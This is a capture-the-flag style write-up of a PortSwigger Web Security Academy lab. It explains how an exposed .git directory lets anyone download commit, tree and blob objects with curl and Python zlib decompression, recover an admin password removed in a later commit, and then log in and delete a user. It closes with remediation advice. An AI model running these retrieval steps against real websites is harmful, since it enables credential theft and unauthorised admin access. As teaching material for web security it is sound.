



# Information disclosure in version control history

**Lab:** PortSwigger Web Security Academy — *Information disclosure in version control history* (Practitioner).

> This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the `administrator` user then log in and delete the user `carlos`.

Version control keeps every past version of the code. If the `.git` directory is deployed to the web root and is readable, an attacker can reconstruct the repository — and any secret that was **committed once and later removed** is still in the history. "Remove admin password" in a commit message means the password sits in the commit before it.

## 1. Confirm the repository is exposed

Request `/.git/HEAD`. If it returns a pointer such as the one below, the directory is served:

```text
ref: refs/heads/master
```



!!! note "Easy route"
    Tools such as `git-dumper` or `wget -r` can download the whole `.git` directory, and `git log` / `git diff` can then show the history. The steps below do the same thing by hand to show how Git stores data.

## 2. Read the commit log

`/.git/logs/HEAD` lists every commit with its message:

```bash
curl -s https://YOUR-LAB-ID.web-security-academy.net/.git/logs/HEAD
```

```text
000000... 28e3c2d8... Carlos Montoya  commit (initial): Add skeleton admin panel
28e3c2d8... 91fa8d63... Carlos Montoya  commit: Remove admin password from config
```

The second commit message gives it away. The password existed in the **first** commit.

## 3. Open the first commit object

Git objects are stored zlib-compressed at `.git/objects/<first 2 hex>/<remaining hex>`. Download the first commit and decompress it:

```bash
curl -s https://YOUR-LAB-ID.web-security-academy.net/.git/objects/28/e3c2d8eab2c12bfca0a1687da03f589103eb87 \
  | python3 -c "import sys,zlib; sys.stdout.buffer.write(zlib.decompress(sys.stdin.buffer.read()))"
```

The decompressed commit points at a tree:

```text
tree e30bc6aa54926fb2134d523c57bb6e25cf6f7360
...
Add skeleton admin panel
```

## 4. Open the tree

A tree object lists the files in that commit and the hash of each. Fetch the tree the same way:

```bash
curl -s https://YOUR-LAB-ID.web-security-academy.net/.git/objects/e3/0bc6aa54926fb2134d523c57bb6e25cf6f7360 \
  | python3 -c "import sys,zlib; sys.stdout.buffer.write(zlib.decompress(sys.stdin.buffer.read()))"
```

It contains two files, `admin.conf` and `admin_panel.php`, each followed by its (binary) object hash.

## 5. Read admin.conf

Take the hash for `admin.conf`, convert it to the `xx/yyyy...` path, download it, decompress it and strip the object header (everything up to the first null byte):

```bash
curl -s https://YOUR-LAB-ID.web-security-academy.net/.git/objects/fb/c1671be231b237ff94a1ebeb8370c18b3f275d \
  | python3 -c "import sys,zlib; data=zlib.decompress(sys.stdin.buffer.read()); print(data.split(b'\x00',1)[1].decode())"
```

```text
ADMIN_PASSWORD=...
```



## 6. Log in and delete carlos

Log in as `administrator` with the recovered password. The **Admin panel** link appears; open it and delete `carlos` to solve the lab.



## Why the attack works

Two mistakes combine: the `.git` directory was deployed and readable, and a secret had once been committed. Removing a file or a value in a later commit does not remove it from history.

## Remediation

Never deploy `.git`; build from an export of the working tree and block dotfiles at the web server. Keep secrets out of repositories entirely. If one was committed, treat it as compromised: **rotate it**, then rewrite history if needed.
